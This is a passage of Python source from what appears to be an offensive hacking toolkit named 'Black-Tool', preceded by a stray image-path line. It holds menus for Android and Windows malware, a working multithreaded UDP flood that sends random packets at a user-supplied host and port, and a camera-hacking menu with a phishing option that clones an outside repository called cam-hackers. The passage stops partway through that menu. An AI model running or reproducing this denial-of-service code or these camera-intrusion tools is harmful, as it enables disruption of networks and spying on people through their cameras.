         print("\n{1}.Android")
        print("{2}.Windows")
        print("{99}.Main Menu")
        command = str(input(Style.BRIGHT + "\nBlack-Tool# "))
        if command == "1":
            self.android_mal()
        elif command == "2":
            self.windows_mal()
        elif command == "99":
            self.main_menu()
        else:
            print(f"{Fore.RED}\nWrong Key: {command}{Fore.WHITE}")
            time.sleep(0.5)
            try_ = input("Press Enter...")
            self.malware()  
    def dos(self):
        self.clear()
        self.banner()
        try:
            host = input("\nEnter Host: ")
            ip = socket.gethostbyname(host)
            port = input("Enter Port: ")
            time.sleep(1)
            self.clear()
            print(f"{Fore.GREEN} Ip: {Fore.RED}{ip}{Fore.WHITE}")
            time.sleep(1)
            print(f"\n{Fore.GREEN} Port: {Fore.RED}{port}{Fore.WHITE}")
            time.sleep(2)
            UDP_PORT = port
            bs = random._urandom(1490)
            sock = socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
            def run(k):
                while True:
                    sock.sendto(bs,(ip,int(port)))
                    print(f"{Fore.GREEN}Send Packet To {Fore.RED}{ip}{Fore.WHITE}")
            for i in range(10):
                ch = threading.Thread(target=run, args=[i])
                ch.start()
        except KeyboardInterrupt:
            print("Ctrl + C\nDos Stopped!")
            while True:
                try_6 = input("\nTry Dos? [y/n] ")
                if try_6 == "y":
                    self.dos()
                elif try_6 == "n":
                    break
                else:
                    continue
        self.main_menu()

    def cam_hacking(self):
        self.clear()
        self.banner()
        print("\n{1}.Cam Hacker")
        print("{2}.Cam Dumper")
        print("{3}.SEE U")
        print("{4}.Cam Phish")
        print("{99}.Back")
        command = str(input(Style.BRIGHT + "\nBlack-Tool/Camera-Hacking# "))
        if command == "1":
            self.clear()
            print("Installing Cam Hacker")
            reaver_ins = subprocess.getoutput("git clone https://github.com/ANGELSECURITYTEAM/cam-hackers")
            input("Press Enter...")